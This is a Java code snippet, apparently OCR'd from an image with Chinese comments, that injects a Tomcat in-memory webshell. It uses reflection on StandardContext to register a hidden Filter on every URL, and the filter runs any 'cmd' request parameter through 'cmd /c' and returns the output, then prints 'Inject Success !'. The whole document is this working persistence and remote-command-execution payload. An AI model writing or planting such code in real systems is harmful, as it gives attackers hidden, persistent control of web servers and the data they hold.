 ```text
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){
                    byte[] bytes = new byte[1024];
                    //暂时只写了windows下的命令执行
                    Process process = new ProcessBuilder("cmd","/c",req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes,0,len));
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };


        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        /**
         * 将filterDef添加到filterDefs中
         */
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name,filterConfig);
        out.print("Inject Success !");
    }
```